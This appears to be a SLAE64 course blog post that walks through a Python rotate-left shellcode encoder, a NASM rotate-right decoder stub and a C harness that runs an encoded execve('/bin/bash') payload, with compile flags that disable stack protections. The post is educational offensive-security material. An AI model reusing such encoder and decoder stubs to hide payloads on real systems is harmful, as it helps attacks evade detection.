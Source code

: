 ```yaml
---
title: SLAE64 Assignment 4 - ROL Encoder 
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fourth assignment of the SLAE64 I created a Rotate Left (ROL) Encoder and a Rotate Right (ROR) decoder.   
The ROL encoder is a python program that rotates every byte of the payload to the left by 1 bit. The companion ROR decoder rotates every byte of the payload to the right by 1 bit, and then passes execution to the decoded payload. The example payload is an execve shellcode that spawns a bash shell.

# The Python Rotate Left (ROL) Encoder 

```python
#!/usr/bin/python
shellcode  = "\x48\x31\xf6"     # xor rsi, rsi
shellcode += "\x48\xf7\xe6"     # mul rsi          ; rdx&rax= 0x0
shellcode += "\x48\x31\xff"     # xor rdi, rdi
shellcode += "\x57"             # push rdi
shellcode += "\x48\x83\xc2\x68" # add rdx, 0x68
shellcode += "\x52"             # push rdx
shellcode += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" # movabs rdx, 0x7361622f6e69622f
shellcode += "\x52"             # push rdx
shellcode += "\x48\x31\xd2"     # xor rdx, rdx
shellcode += "\x48\x89\xe7"     # mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
shellcode += "\xb0\x3b"         # mov al, 0x3b ; execve syscall number
shellcode += "\x0f\x05";        # syscall  ; call execve("/bin/bash", NULL, NULL)

encoded = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded += '0x'
        encoded += '%02x,' %x  # Add the rotated left hex to string
    else:
        encoded += '0x'        # No leftmost bit, just rotate
        encoded += '%02x,' %(x << 1)
print encoded+"0xaa"
print 'Len: %d' % len(bytearray(shellcode))
```  

+ The byte 0xaa is added to the end of the payload. This is how our ROR decoder will know it has reached the end of the payload.

## Encoding the Payload
```bash
root# python rotateLeftEncoder.py
0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,0x90,0x07,\
0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,0xdc,0x5e,0xc4,0xc2,\
0xe6,0xa4,0x90,0x62,0xa5,0x90,0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
Len: 36
```

# The Rotate Right (ROR) Decoder

```nasm
; Filename: rotateRightDecoder.nasm
; Author:   boku
global _start
section .text
_start:
  jmp short call_decoder ; 1. jump to shellcode string
decoder:
  pop rsi                ; 3. RSI=&String 
decode:
  ror byte [rsi], 1      ; 4. decode byte with bitwise rotate right
  cmp byte [rsi], 0x55   ; 5. Last byte? ror 0xaa, 1 = 0x55
  je Shellcode           ;    - Yes? jump to payload and execute
  inc rsi                ; 6. No? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
call_decoder:
  call decoder           ; 2. [RSP]=&String
  Shellcode: db 0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,\
                0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,\
                0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,\
                0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
```

## Getting the ROR Decoder Shellcode

```bash
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh rotateRightDecoder.asm
\xeb\x0d\x5e\xd0\x0e\x80\x3e\x55\x74\x0a\x48\xff
\xc6\xeb\xf4\xe8\xee\xff\xff\xff\x90\x62\xed\x90
\xef\xcd\x90\x62\xff\xae\x90\x07\x85\xd0\xa4\x90
\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4\x90\x62
\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa
```

# Testing the ROR Decoder

```c
// Shellcode Title:  Linux/x64 - ROL Encoded Execve Shellcode (57 bytes)
// Shellcode Author: Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x0d"              // jmp short call_decoder
// decoder:
"\x5e"                  // pop rsi = &String
// decode:
"\xd0\x0e"              // ror byte [rsi], 1
"\x80\x3e\x55"          // cmp byte [rsi], 0x55 - last byte? ror 0xaa, 1 = 0x55
"\x74\x0a"              // je Shellcode - End? Jump to shellcode!
"\x48\xff\xc6"          // inc rsi - Not end? move 2 next byte
"\xeb\xf4"              // jmp short decode - loop 2 decode next byte
// call_decoder:
"\xe8\xee\xff\xff\xff"  // call decoder // go 2 decode loop
// Execve(/bin/bash) ROL Encoded Shellcode
"\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85"
"\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4"
"\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

```

## Final Test

```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3067 pts/3    Ss     0:00 /bin/bash
root# ./shellcode
Shellcode Length:  57
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3501 pts/3    S      0:00 [bash]
```

## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```

